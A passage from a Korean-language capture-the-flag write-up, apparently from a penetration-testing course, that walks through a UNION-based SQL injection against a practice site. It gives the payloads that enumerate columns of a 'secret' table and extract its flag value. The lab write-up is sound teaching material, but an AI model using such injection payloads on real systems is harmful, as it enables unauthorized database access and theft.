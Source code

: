 `' union select 1, 2, 3, 4, 5, column_name from information_schema.columns where table_name = 'secret'#`를 입력하여 `secret` 테이블에도 `flag` 컬럼이 존재함을 확인하였다. 뒤이어 `flag` 컬럼의 값을 추출해 보았다.

![SQL Injection 2](/data/Penetration%20Testing%20|%20Week%206/59.png)

이번에도 플래그를 획득할 수 없었다. 따라서 `flag` 컬럼에 존재하는 다른 값이 있는지 확인해 보았다.

![SQL Injection 2](/data/Penetration%20Testing%20|%20Week%206/60.png)

`' union select 1, 2, 3, 4, 5, flag from secret limit 1, 1#`를 입력하여 마침내 플래그를 획득할 수 있었다.

<p style="text-align: center;">Flag: <span style="color: green">segfault{<span style="filter: blur(5px);">UnionOnlyOneColumn</span>}</span></p>